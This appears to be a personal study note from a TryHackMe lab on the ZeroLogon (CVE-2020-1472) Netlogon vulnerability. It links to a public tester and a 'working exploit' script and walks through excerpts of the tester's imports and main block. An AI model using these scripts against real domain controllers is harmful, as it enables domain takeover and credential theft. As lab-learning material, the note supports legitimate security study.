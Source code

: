 <- [[ZeroLogon]]
# ZeroLogon PoC
This is a breakdown from [TryHackMe](https://tryhackme.com/room/zer0logon) of the #zerologon exploit, which exploits [[MS-NRPC]] authentication( #MS-NRPC) and the underlying #Netlogon 

The PoC ( #Python) can be found here: https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py

Working Exploit can be found here: https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py ^working-exploit

## **TABLE OF CONTENTS**
- [[ZeroLogon PoC#Breakdown|Breakdown]]
	- [[ZeroLogon PoC#Breakdown#Code Walk-through|Code Walk-through]]
	- [[ZeroLogon PoC#Breakdown#What's it mean|Whats the code mean?]]
- [[ZeroLogon PoC#Crafting Exploit|Crafting Exploit]]


## Breakdown
**REQUIREMENTS**: PoC requires #Impacket

### Code Walk-through
**Lines 3 - 13**
```
1.  from impacket.dcerpc.v5 import nrpc, epm  
2.  from impacket.dcerpc.v5.dtypes import NULL
3.  from impacket.dcerpc.v5 import transport
4.  from impacket import crypto
5.        
6.  import hmac, hashlib, struct, sys, socket, time
7.  from binascii import hexlify, unhexlify
8.  from subprocess import check\_call
9.  MAX\_ATTEMPTS = 2000
```
  

Lines 1-4 import the required modules from Impacket, specifically the NRPC, EPM, Crypto, and Transport libraries. Additionally, on lines 6-8 a handful of other misc libraries are also imported, however, the Impacket libraries are the star of the show here. Lastly, on line 9, we're defining a constant (similar to a variable, but never changes) that sets the maximum number of retries for Zero Logon to 2000.

  

**Lines 76 - 86**
```
1.  if \_\_name\_\_ == '\_\_main\_\_':     
2.    if not (3 <= len(sys.argv) <= 4):
3.      print('Usage: zerologon\_tester.py <dc-name> <dc-ip>\\n')
4.      print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
5.      print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
6.      sys.exit(1)
7.    else:
8.      \[\_, dc\_name, dc\_ip\] = sys.argv
9.       
10.      dc\_name = dc\_name.rstrip('$')
11.      perform\_attack('\\\\\\\\' + dc\_name, dc\_ip, dc\_name)
```
